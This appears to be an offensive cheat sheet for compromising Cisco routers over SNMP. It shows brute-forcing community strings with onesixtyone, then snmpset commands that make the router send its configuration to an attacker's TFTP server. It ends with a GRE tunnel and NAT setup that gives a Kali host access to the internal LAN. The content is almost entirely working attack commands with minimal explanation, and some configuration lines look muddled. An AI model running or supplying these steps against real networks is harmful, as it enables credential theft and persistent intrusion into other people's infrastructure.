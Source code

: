 Cisco SNMP writable Permission 

# Obtaining Cisco configuration over SNMP

To obtain The  configuration File,snmp-community-string Has to be writable permission by default Community String is only Readable. 
Gaining writable String is to enumerate or Brute-forcing.

### SNMP Private String Brute-forcing
```
onesixtyone -i Target.txt -c /usr/share/doc/onesixtyone/dict.txt
```

```
snmpset -c snmp-community-string -v 2c IP Address of Cisco 
snmpset -c Cisco123 -v 2c 192.168.1.100 1.3.6.1.4.1.9.9.96.1.1.1.1.2.666 i 1
snmpset -c Cisco123 -v 2c 192.168.1.100 1.3.6.1.4.1.9.9.96.1.1.1.1.3.666 i 1
snmpset -c Cisco123 -v 2c 192.168.1.100 1.3.6.1.4.1.9.9.96.1.1.1.1.4.666 i 4 #Configuration File would be download
snmpset -c Cisco123 -v 2c 192.168.1.100 1.3.6.1.4.1.9.9.96.1.1.1.1.5.666 a 192.168.1.99 #TFTP Server
snmpset -c Cisco123 -v 2c 192.168.1.100 1.3.6.1.4.1.9.9.96.1.1.1.1.6.666 s test.txt
```


### On Kali 
```
iptunnel add mynet mode gre remote <target external ip> local <attacker external ip> ttl 255
ip addr add 10.11.99.10/24 dev mynet
ifconfig mynet up
route add -net 10.11.99.0 netmask 255.255.255.0 dev mynet
```

### On Cisco
```
enable
configuration terminal 
interface Tunnel
ip address 10.11.99.1 255.255.255.0
ip mtu 1514
ip virtual-reassembly
tunnel source <Interface of WAN on the Cisco>
tunnel destination 10.11.99.10
```
### Access List
```
enable
configure terminal	
interface Tunnel0
ip nat inside          
interface <Internal Lan Interface>
ip nat outside
exit
configure terminal	
access-list client-list permit ip 10.11.99.0 0.0.255.255         
ip nat enable       	 
ip nat source route-map test interface <Internal LAN Interface> overload
ip nat inside source list client-list interface <Internal LAN Interface> overload
```

